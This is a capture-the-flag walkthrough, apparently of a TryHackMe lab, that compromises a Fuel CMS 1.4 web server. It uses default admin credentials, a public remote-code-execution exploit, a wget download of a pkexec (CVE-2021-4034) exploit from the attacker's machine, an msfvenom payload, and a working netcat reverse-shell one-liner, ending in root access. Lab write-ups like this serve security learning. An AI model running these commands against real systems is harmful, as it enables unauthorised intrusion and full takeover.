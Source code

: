 # Ignite
A new start-up has a few issues with their web server.
Goal
- User.txt
- Root.txt
## Steps
- Nmap first to see open services

![Pasted image 20251002212118.png](thm_pics/Pasted%20image%2020251002212118.png)

- The website title is Fuel, and it has 1 disallowed entry in robots.txt file called "/fuel"
- The service version is Apache httpd 2.4.18

![Pasted image 20251002212258.png](thm_pics/Pasted%20image%2020251002212258.png)

- Its Fuel CMS version 1.4
- now, lets use gobuster to find directories
- Command : `gobuster dir -u http://10.10.96.244 -w /usr/share/wordlists/dirb/common.txt`

![Pasted image 20251002212719.png](thm_pics/Pasted%20image%2020251002212719.png)

- Also, on the website, it says to access the FUEL admin, go to this link, so i proceed to click on it. And it says the email and password is admin

![Pasted image 20251002213002.png](thm_pics/Pasted%20image%2020251002213002.png)

![Pasted image 20251002213032.png](thm_pics/Pasted%20image%2020251002213032.png)

- The login panel appears and i can login using username : admin and password : admin

![Pasted image 20251002213149.png](thm_pics/Pasted%20image%2020251002213149.png)

- it worked
- I searched for the exploit in searchsploit and found remote code execution exploits (and the target's fuel CMS version is 1.4, so maybe we can use these)

![Pasted image 20251002212656.png](thm_pics/Pasted%20image%2020251002212656.png)

- I'll use the 3rd one first
- I executed by "`python3 50477.py -u http://10.10.96.244/`"

![Pasted image 20251002214101.png](thm_pics/Pasted%20image%2020251002214101.png)

- so i can execute command remotely
- I cannot find either of the files

![Pasted image 20251002214415.png](thm_pics/Pasted%20image%2020251002214415.png)

- I should try to do privilege escalation 
- First, i will try to find files with SUID bit set
- Command : `find / -type f -perm -04000 -ls 2>/dev/null`

![Pasted image 20251002214814.png](thm_pics/Pasted%20image%2020251002214814.png)

- what is **pkexec**? havent heard of it, so i searched on google

![Pasted image 20251002214953.png](thm_pics/Pasted%20image%2020251002214953.png)

- Ohh i see, maybe i have to understand how it works
- So pkexec - **Execute a command as another user**
- I tried to search for privilege escalation payload on the internet and found this github
- https://github.com/arthepsy/CVE-2021-4034

![Pasted image 20251002220745.png](thm_pics/Pasted%20image%2020251002220745.png)

- I will send the exploit code to the target by hosting simple python file from my attacker machine and wget it from the target
- Command on my attacking machine :  `python3 -m http.server 80`
- Command on target : `wget -O /tmp/cve2021.c http://10.23.125.244:80/cve-2021-4034-poc.c`

![Pasted image 20251002221701.png](thm_pics/Pasted%20image%2020251002221701.png)

- It got uploaded in /tmp directory and i compiled it in the current directory
- I will try running the commands specified in this **github repo** (compile)

![Pasted image 20251002221929.png](thm_pics/Pasted%20image%2020251002221929.png)

- lol why it didnt work (because **we dont have the shell!**)
- I tried to execute reverse shell by setting up listener but the shell wouldnt connect with the listener when i tried to -e /bin/bash. If nc normally, it would still connect
- So, the next step is to transfer payload to the target using **msfvenom**
- i checked the target architecture
	- Command : uname -m
	- Answer : 64-bit
- Command : `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.23.125.244 LPORT=4141 -f elf -o pwn.elf`
- Uploaded it to the target and change chmod +x to allow executing
- Set up listener on our attacking machine
- Didnt work again!
- Maybe i tried using **Reverse shell generator** to help me generate the right payload
- This worked :  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.125.244 4141 >/tmp/f` 
- Maybe because nc doesn't enable -e for security reason

![Pasted image 20251002234424.png](thm_pics/Pasted%20image%2020251002234424.png)

- Now, we can try executing the **cve2021** file again

![Pasted image 20251002234539.png](thm_pics/Pasted%20image%2020251002234539.png)

- Thats more like it!
- Now, lets find User.txt and Root.txt

![Pasted image 20251002234657.png](thm_pics/Pasted%20image%2020251002234657.png)

![Pasted image 20251002234944.png](thm_pics/Pasted%20image%2020251002234944.png)

- Command : `ls -la /root`
- found the root file!
- since find command somehow didnt work, maybe lets try searching for common places for user.txt
- I found flag file in : `cat /home/www-data/flag.txt`
- Its not User.txt tho but its somehow the correct answer
- Done
- This website : https://www.revshells.com/ saved my life